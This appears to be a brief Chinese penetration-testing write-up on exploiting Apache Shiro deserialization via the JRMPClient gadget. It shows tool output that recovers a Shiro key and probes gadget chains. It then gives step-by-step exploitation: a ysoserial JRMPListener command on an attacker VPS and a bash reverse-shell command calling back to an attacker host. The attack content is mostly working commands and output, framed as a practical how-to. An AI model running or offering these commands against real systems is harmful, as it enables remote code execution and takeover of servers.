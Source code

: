 ## 0x00 漏洞背景

  在打一个项目中，shiro反序列化有个链容易忽略，找到key没有链，使用JRMPClient成功反弹，下面是shiro_tool.jar测试结果，关键部分不放了。
 ``` 
[-] target is use shiro
[-] start guess shiro key...
[-] use shiro key: 4AvVhmFLUs0KTA3Kprsdag==
[-] check CommonsBeanutils1
[-] check CommonsCollections1
[-] check CommonsCollections2
[-] check CommonsCollections3
[-] check CommonsCollections4
[-] check CommonsCollections5
[-] check CommonsCollections6
[-] check CommonsCollections7
[-] check Groovy1
[-] check JSON1
[-] check Spring1
[-] check Spring2
[-] check Jdk7u21
[-] check JRMPClient
[-] check ROME
[-] check Clojure
[*] find: JRMPClient can be use
0: JRMPClient
[-] please enter the number(0-0)

```
## 0x01 漏洞利用
  
  1.使用ysoserial.jar 工具搭建服务，VPS执行 java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 6789 CommonsCollections5 "ping rskzeg.dnslog.cn"
  
  2.shiro反序列利用工具中选择JRMPClient,然后输入VPS上搭建服务的地址
  
  3.执行反弹命令bash -i >& /dev/tcp/xxxxxx/8888 0>&1
  
